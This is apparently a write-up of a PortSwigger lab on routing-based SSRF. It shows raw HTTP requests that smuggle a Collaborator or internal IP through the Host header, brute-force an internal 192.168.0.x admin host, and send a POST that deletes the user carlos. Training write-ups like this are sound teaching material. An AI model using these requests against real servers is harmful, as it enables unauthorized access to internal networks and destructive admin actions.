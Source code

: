 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f6fa8bfc-7ce1-47f0-9289-222aefabd8be)

## Solution :

Send the **GET /** request to repeater.

If we change the **Host:** header value to collaborator domain, we get a forbidden response.
```http
GET / HTTP/2
Host: f4kyfymr73fchhwisozzgp173y9pxfl4.oastify.com
Cookie: session=uD5Oq6coAHVEaugt4oQesXJOaM3yLurs; _lab=47%7cMC0CFQCLAW6vZWc5gkUN55J6cO5a4%2bE1lAIURkzVJJNB%2fN1Jxn0hIBZK9LBnQJcruSf5HbgZTSzg1fY%2fQRUvXmN33Ny8kQZK%2ft7W3xcnkKpvrwd0i8EFCcTJL0ZGS89hlPMvbuwfCgsIsty92zRcqKOX8WJ7RGMhQXdeF10ZpZ3auGzg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1b8985b5-c061-4d42-9f73-e2ff6bc97eff)

But when we provide the absolute URL in the header of the request & supply the **HOST** header as *burp-colab-domain*, our reqeust is not blocked.

**Request :**
```http
GET https://0ae200fc0329a91487ec07b8005600d6.web-security-academy.net/ HTTP/2
Host: xmngxg49plxuzze0a6hhy7jplgr7f13q.oastify.com
Cookie: session=uD5Oq6coAHVEaugt4oQesXJOaM3yLurs; _lab=47%7cMC0CFQCLAW6vZWc5gkUN55J6cO5a4%2bE1lAIURkzVJJNB%2fN1Jxn0hIBZK9LBnQJcruSf5HbgZTSzg1fY%2fQRUvXmN33Ny8kQZK%2ft7W3xcnkKpvrwd0i8EFCcTJL0ZGS89hlPMvbuwfCgsIsty92zRcqKOX8WJ7RGMhQXdeF10ZpZ3auGzg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
```

**Response :**
```http
HTTP/2 200 OK
Server: Burp Collaborator https://burpcollaborator.net/
X-Collaborator-Version: 4
Content-Type: text/html
Content-Length: 55

<html><body>b3szld401ux7toyz39idauzjjgmgz</body></html>
```

We've also got some hits in our collaborator.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b458c930-e5cb-4d32-8896-64cf47511920)

Finally we're able to make the reverse proxy/server make outbound requests to our server. Now we can make reqeusts to the reverese-proxy & make it send/forward our requests to its internal network.

### Access the internal network via SSRF -

The machine with admin panel in the internal domain is in the range - `192.168.0.0/24` means it will have max 253 hosts.

Send the request to repeater & bruteforce the last octet.

> NOTE - Untick `Update host header to match target` checkbox before bruteforcing . By doing this all requests will not be updated with websecurity.net as host address rather it will be our 192.168.0.x addresses

Once the attack is complete we have our internal machine's ip address - `192.168.0.171`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6520277a-c96b-49a9-866e-37b98797fe8e)

The response confirms that it did redirect to `192.168.0.171/admin`

```http
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Now time to access the admin panel.

Append the **/admin** to the url header.

```http
GET https://0ae200fc0329a91487ec07b8005600d6.web-security-academy.net/admin HTTP/2
Host: 192.168.0.171
```

In the response we have the following form which sends a POST request with a csrf token.

```html
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
                        <input required type="hidden" name="csrf" value="tkpqSXo4OWcOm8QMgCH3JHkzb9xQes4w">
                        <label>Username</label>
                        <input required type='text' name='username'>
                        <button class='button' type='submit'>Delete user</button>
</form>
```

Send a POST request to the following endpoint with the csrf token to delete the user carlos.

```http
POST https://0ae200fc0329a91487ec07b8005600d6.web-security-academy.net/admin/delete HTTP/2
Host: 192.168.0.171
Cookie: session=uD5Oq6coAHVEaugt4oQesXJOaM3yLurs; _lab=47%7cMC0CFQCLAW6vZWc5gkUN55J6cO5a4%2bE1lAIURkzVJJNB%2fN1Jxn0hIBZK9LBnQJcruSf5HbgZTSzg1fY%2fQRUvXmN33Ny8kQZK%2ft7W3xcnkKpvrwd0i8EFCcTJL0ZGS89hlPMvbuwfCgsIsty92zRcqKOX8WJ7RGMhQXdeF10ZpZ3auGzg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

username=carlos&csrf=tkpqSXo4OWcOm8QMgCH3JHkzb9xQes4w
```
Now the lab is solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e6f6c2a8-cd97-4f6a-8e76-9bb05518156b)







